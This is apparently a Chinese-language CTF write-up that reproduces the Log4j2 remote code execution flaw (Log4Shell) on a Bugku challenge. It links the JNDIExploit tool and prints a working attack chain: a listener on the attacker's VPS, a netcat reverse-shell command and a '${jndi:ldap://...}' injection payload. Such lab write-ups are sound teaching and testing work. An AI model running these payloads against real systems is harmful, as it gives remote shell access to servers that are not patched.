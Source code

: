 ```yaml
---
title: Log4j2_RCE漏洞复现
---
```


#  Log4j2_RCE漏洞复现

## 漏洞简介

Apache **Log4j2**是一个基于Java的日志记录工具。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

漏洞适用版本为`2.0 <= Apache log4j2 <= 2.14.1`，只需检测Java应用是否引入 log4j-api , log4j-core 两个jar。若存在应用使用，极大可能会受到影响。

## 复现过程

本文复现地址

[https://ctf.bugku.com/challenges/detail/id/340.html](https://ctf.bugku.com/challenges/detail/id/340.html)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-1.png)

使用工具

[https://gitee.com/bjmlw2021/JNDIExploit/tree/master](https://gitee.com/bjmlw2021/JNDIExploit/tree/master)

https://zhiji.lanzoul.com/iwGopxrn27c
密码:8r02

将利用工具上传至自己的公网vps

开启ldap和http服务监听

```
java -jar JNDIExploit-master.jar -i 自己公网vps的ip
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-2.png)

另开终端，nc开启监听

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-3.png)



base64加密反弹shell命令

```
nc 公网vps的ip 12345 -e /bin/sh
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-5.png)

进行jndi注入攻击

```java
${jndi:ldap://x.x.x.x:1389/Basic/Command/Base64/[base64加密后命令]}
```

在关卡页面，输入payload,密码随意。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-4.png)

成功反弹shell

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/log4j-6.png)
